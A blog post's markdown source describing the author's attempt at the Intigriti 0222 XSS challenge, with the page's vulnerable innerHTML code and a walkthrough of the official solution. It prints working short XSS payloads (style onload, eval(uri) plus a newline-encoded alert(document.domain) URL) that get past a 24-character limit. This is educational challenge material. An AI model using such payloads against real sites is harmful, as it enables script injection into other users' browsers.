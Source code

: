 ```yaml
---
title: "Intigriti 0222 XSS Challenge Attempt"
date: 2022-02-19T10:59:07-08:00
slug: intigriti-0222-challenge-attempt
description: My attempt to solve the intigriti 0222 xss challenge
images:
  - images/0222-challenge/og.png
tags:
  - javascript
  - xss
  - intigriti
type: post
---
```


## Intro

Intigriti is a hacking and bug bounty platform. They host a monthly XSS challenge. They are really fun and interesting for someone like me. 

TL;DR, I did not complete this month's challenge. 😭


See

* Challenge: https://challenge-0222.intigriti.io/challenge/xss.html
* Intigriti explanation: https://www.youtube.com/watch?v=P1bFG2qMxec


## My attempt

Even though I did not complete the challenge, I thought I would document what my thought process were and what I've learned. 

### Challenge 

The page has a form with a name input and a toggle. The instruction says the name cannot be empty nor can it be longer than 24 characters.
Let's try it. Enting the name will trigger a dialog popup with the name from the input field. 

 |
:-------------------------:|:-------------------------:
![](/images/0222-challenge/form.png)  |  ![](/images/0222-challenge/popup.png)


First thing I noticed is that the uri changed with `q` and `first` query parameters. It seems like I can manipulate these parameter to cause a XSS attack. Let's see how the parameters are appended. Looking at the source code we can see that it is set directly to the `window.location.search` property. The value is uri encoded.

```js
 window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
        showModal('Error!', "It's empty")
        return
    }

    if (inputName.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
        return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
}
```

When the page is loaded, what happens to the query parameters?

```js
function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
}

// onsubmit code...

if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
    showModal('Welcome back!', qs)
    }
}
```

First thing I noticed is the `innerHTML` assignment. The `innerHTML` gets or sets the HTML content within the element. It is not uncommon to use `innerHTML` to set the content. This leaves vulnerability valunerbility to XSS attackers. Let's try it

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=<script>alert()</script>&first=yes
```

Nothing happens? Why? Because HTML5 specifies that a `<script>` tag inserted with `innerHTML` should not execute. [See MDN\' security consideration](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations).

But even in the section, it says it does not prevent all the attacks. The most common one is to use `img` with `onerror` field.

```
<img src=# onerror=alert(1) />
```

But this exceeds the character limit. 🤔. This is where I was stuck. I looked up some small xss methods and eventually found the `onload` property in `style` tag. 

```
<style onload=alert(1)>
```

{{<figure src="/images/0222-challenge/alert.png" alt="A screenshot of the alert(1)" width="50%" >}}

Yay, I got an alert popup. But this is not the objective of the challenge. I need to get `alert(document.domain)`. I spent a couple more days on this challenge and could not find the answers.I tried to see if there is a way maybe I can use a tiny url to load some bad script. But no way I can pass below the 24 characters limit.


## Answer

1 week passed by and Integriti posted their answers. I was really curious on how they by-passed the 24 characters limit. Go watch the video solution because they can explain way better than I did.

### Solution

The method they by pass is to use one of the tiny xss payload [from this github repo](https://github.com/terjanq/Tiny-XSS-Payloads).

Alright, the answer is to use `eval` to execute some js statements, which causes a XSS attack.

```
<style/onload=eval(name)>
```

But what variable do we control in the `showModal` function? Everything is either passed in as arguments, or the `name` in the `window` global object.

### The simple trick 

The key is `var` 🤦‍♀️. Once I saw the solution, it dawn upon me!! `var` variables hoist up in the scope. Since the scope is the window itself, it is accessible in any function!

See more about [\`var\` hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting#var_hoisting).


So we can access the `uri` variable defined in the `if` block.
```
<style/onload=eval(uri)>
```

### More

But this is not the using above payload, you will see an error. `Uncaught SyntaxError: expected expression, got end of script`. Because the uri content is not actually anything of JavaScript statement.

To complete the challenge, we need to get some valid js statement into the `eval` parameter. We can try terminating the previous statement with `;` and have valid syntax afterwards. 

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&;alert(document.domain)`

This didn't work. But `eval` also works with multiline js statements. Let's try that. What is the new line character in encoded URI format: `%0A`.

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&%0Aalert(document.domain)`

{{<figure src="/images/0222-challenge/complete.png" alt="XSS successful" width="50%" >}}

## Thoughts

I think this challenge is awesome. It combines a couple simple JavaScript quirkiness to create a surprising bypass. The variable hoisting and the `eval` keyword. 2 things I already knew but did not think of during the challenge. Looking forward to March's challenge.

## Things I learned

* `innerHTML` does not execute `script` tag
* [This awesome tiny xss payload repo](https://github.com/terjanq/Tiny-XSS-Payloads)
* `/` act as spaces in HTML tags. Very cool
